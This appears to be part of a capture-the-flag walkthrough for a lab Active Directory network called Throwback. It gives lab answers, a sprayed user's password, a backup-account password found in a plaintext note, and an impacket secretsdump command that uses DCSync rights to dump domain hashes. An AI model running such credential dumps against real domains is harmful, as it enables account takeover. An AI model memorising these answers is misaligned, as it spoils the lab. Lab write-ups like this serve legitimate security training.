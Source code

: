 What user was successfully password sprayed?
```{toggle}
JeffersD
```
What was the password for the user?
```{toggle}
Throwback2020
```

# SYNCHRONIZE

Don't have Bloodhound loot because Sharphound is still broken, ssh-ed in to the DC.

![dc-ssh-jeffersd](Screenshots/dc-ssh-jeffersd.png)

`proxychains /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip 10.200.102.117 THROWBACK/backup@10.200.102.117` With the password: `TBH_Backup2348!`

We get alot of hashes [finds them here](Forsaken/secretdump)

```powershell

PS C:\Users\jeffersd> cd Documents
PS C:\Users\jeffersd\Documents> ls


    Directory: C:\Users\jeffersd\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/19/2020  10:13 PM            286 backup_notice.txt


PS C:\Users\jeffersd\Documents> type .\backup_notice.txt
As we backup the servers all staff are to use the backup account for replicating the servers 
Don't use your domain admin accounts on the backup servers.

The credentials for the backup are:
TBH_Backup2348!

Best Regards,
Hans Mercer
Throwback Hacks Security System Administrator
```

## Answers
What user has dcsync rights?
```{toggle}
backup
```
What user can we dump credentials for and is an administrator?
```{toggle}
Hans Mercer
```

